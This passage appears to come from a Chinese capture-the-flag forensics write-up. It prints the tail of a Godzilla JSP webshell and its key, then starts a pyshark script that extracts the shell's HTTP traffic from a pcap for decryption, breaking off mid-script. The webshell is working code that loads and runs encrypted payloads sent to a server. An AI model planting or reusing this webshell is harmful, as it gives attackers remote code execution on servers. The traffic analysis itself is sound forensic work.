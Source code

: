 ```bash
        try {
            javax.crypto.Cipher c = javax.crypto.Cipher.getInstance("AES");
            c.init(m ? 1 : 2, new javax.crypto.spec.SecretKeySpec(xc.getBytes(), "AES"));
            return c.doFinal(s);
        } catch (Exception e) {
            return null;
        }
    } %>
<%
    try {
        byte[] data = new byte[Integer.parseInt(request.getHeader("Content-Length"))];
        java.io.InputStream inputStream = request.getInputStream();
        int _num = 0;
        while ((_num += inputStream.read(data, _num, data.length)) < data.length) ;
        data = x(data, false);
        if (session.getAttribute("payload") == null) {
            session.setAttribute("payload", new X(this.getClass().getClassLoader()).Q(data));
        } else {
            request.setAttribute("parameters", data);
            Object f = ((Class) session.getAttribute("payload")).newInstance();
            java.io.ByteArrayOutputStream arrOut = new java.io.ByteArrayOutputStream();
            f.equals(arrOut);
            f.equals(pageContext);
            f.toString();
            response.getOutputStream().write(x(arrOut.toByteArray(), true));
        }
    } catch (Exception e) {
    }
%>
```

可以看到这是未加密的哥斯拉 JSP 木马，key 是 748007e861908c03，那么可以通过解密脚本去解密流量，具体分析请看[这里](https://xz.aliyun.com/t/10556)，这里放一下我自动提取哥斯拉木马的交互流量分析脚本和解密脚本。

```bash
# extract_pcap.py
import pyshark
import pickle

pcap = pyshark.FileCapture(
    "../hard_web.pcap", display_filter="http.request.uri==\"/shell.jsp\" or http.response.code == 200", tshark_path=R"D:\whitehat\tools\Wireshark\tshark.exe")

HTTPchat = {"req": [], "res": []}  # 创建请求和响应的字典


def get_file_data(pkt):  # 获取 file_data
    if int(pkt.http.content_length) == 0:  # 检测是否有 file_data
        return None
    if int(pkt.http.content_length) != len(pkt.http.file_data):  # 检测 file_data 内容是否完整
        reassmbledData = pkt.DATA.tcp_reassembled_data.binary_value if (
            "DATA" in pkt) else pkt.TCP.payload.binary_value
        Data = reassmbledData[reassmbledData.find("\r\n\r\n".encode())+4:]
        if int(pkt.http.content_length) == len(Data):  # 这段可以不用加，一般情况下都是完整的
            return Data
    else:
        return pkt.http.file_data.binary_value


for pkt in pcap:
    if int(pkt.number) < 24256:  # 跳到关键请求
        continue
    if pkt.http.chat.split(" ")[0] in ["GET", "POST"]:  # 检测是否是请求
        HTTPchat["req"].append(
```